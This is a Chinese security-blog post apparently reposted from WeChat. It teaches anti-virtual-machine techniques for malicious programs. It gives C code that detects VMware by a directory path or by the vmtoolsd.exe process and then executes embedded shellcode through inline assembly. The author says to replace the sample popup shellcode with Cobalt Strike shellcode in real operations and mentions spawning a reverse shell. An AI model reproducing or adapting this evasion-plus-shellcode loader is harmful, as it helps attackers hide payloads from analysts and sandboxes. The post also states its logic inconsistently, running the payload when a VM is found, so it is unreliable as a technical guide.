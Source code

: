 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/zLF8otaE4oDyBflG0pqqEQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJzrIOpB7giayjMZrEkX7viaFTLRwGnsRUDcoS9jgnDUtiakRODpzeVTBZQ/640?wx_fmt=jpeg)

扫一扫关注公众号，长期致力于安全研究

**前言：本文主要讲解如何反虚拟机**

  

0x01 最常见的例子

**在软件逆向，病毒分析等等，许多恶意程序为了自己不被调试，都运用了反虚拟机技术。当程序在虚拟机中则运行失败，甚至执行其它结果 (PS: 比如反弹个 shell 回去~~)**  

  

0x02 根据文件路径

虚拟机一般有一个路径，如果这个路径存在，一般就是在虚拟机中

```
C:\Program Files\VMware
```

    既然已经知道了这个路径，那只需要判断路径是否存在即可，这里用到

PathIsDirectory 函数，这个函数判断目录是否存在。

    完整代码如下：  

           判断是否在虚拟机环境，如果在虚拟机环境执行 shellcode(我这里是弹窗，实战中换成 CS 的即可)，

```
#include <Windows.h>
#include "shlwapi.h"
char shellcode[] =
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6c\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8";
#pragma comment(lib, "shlwapi.lib")
int _tmain(int argc, _TCHAR* argv[])
{
  if (PathIsDirectoryW(L"C:\\Program Files\\VMware")){
    __asm{
      lea eax, shellcode;
      push eax;
      ret;
    }

  }
  return 0;
}
```

    接下来在虚拟机中运行一下，成功执行 Shellcode

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyxiazokHxrPdZIFgZc5ic0lpZOmI8de7HteT8UhViaCoHjwq2vgibRB0SMtmXGC6CRHn2eTbQh2EibGyEQ/640?wx_fmt=png)

  

  

0x03 根据进程信息

在虚拟机中，常见的默认进程有 vmware.exe 或者 vmtoolsd.exe 等等，我们只需要找到最常见的进程名，来进行判断是否存在该进程名，如果存在就进行程序退出或者反弹 shell。  

![](https://mmbiz.qpic.cn/mmbiz_png/8miblt1VEWyxiazokHxrPdZIFgZc5ic0lpZZfqHhgVblS90NED8ZIRgibAHeU9HN12YscxAy4VXiaLFEMphL64hl7Dw/640?wx_fmt=png)

```
完整代码如下：通过进程遍历，来查找进程名为vmtoolsd.exe的程序
 DWORD ret = 0;  
    PROCESSENTRY32 pe32;  
    pe32.dwSize = sizeof(pe32);   
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);   
    if(hProcessSnap == INVALID_HANDLE_VALUE)   
    {   
        return FALSE;   
    }  
    BOOL bMore = Process32First(hProcessSnap, &pe32);   
    while(bMore)  
    {  
        if (strcmp(pe32.szExeFile, "vmtoolsd.exe")==0)  
        {  
            __asm{
              lea eax,shellcode;
              jmp eax;
            }
            return TRUE;  
        }  
        bMore = Process32Next(hProcessSnap, &pe32);   
    }  
    CloseHandle(hProcessSnap);
```

  

0x04 结尾

**其实反虚拟机的手段是多之又多，本文只是列了两个很常见例子。**

11111  

微信搜索关注 "安全族" 长期致力于安全研究

下方扫一下扫，即可关注

![](https://mmbiz.qpic.cn/mmbiz_jpg/8miblt1VEWywiaJCkziaQLQSQrBa9qJFWQJzrIOpB7giayjMZrEkX7viaFTLRwGnsRUDcoS9jgnDUtiakRODpzeVTBZQ/640?wx_fmt=jpeg)